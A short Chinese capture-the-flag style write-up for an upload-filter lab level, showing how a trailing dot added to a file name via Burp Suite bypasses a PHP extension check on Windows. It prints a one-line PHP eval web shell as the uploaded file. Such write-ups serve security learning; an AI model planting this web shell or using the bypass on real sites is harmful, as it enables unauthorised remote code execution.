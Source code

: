 ## 解题wp(By:独立团孙德胜Alan)
本pass可以通过增加点的方式绕过，注意，此Pass需要修改PHP环境为5.2.17

## 1.打开第七关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传

## 3.分析代码

![](./img/3.png)

#### $file_ext = strrchr($file_name, '.');

#### 抓包增加点即可，window系统文件名后缀都会自动过滤点

#### linux环境下也可增加点再上传，linux下不会过滤文件名最后的点

## 4.我们可以使用Burpsutie抓包，利用windows系统特性绕过

![](/img/4.png)

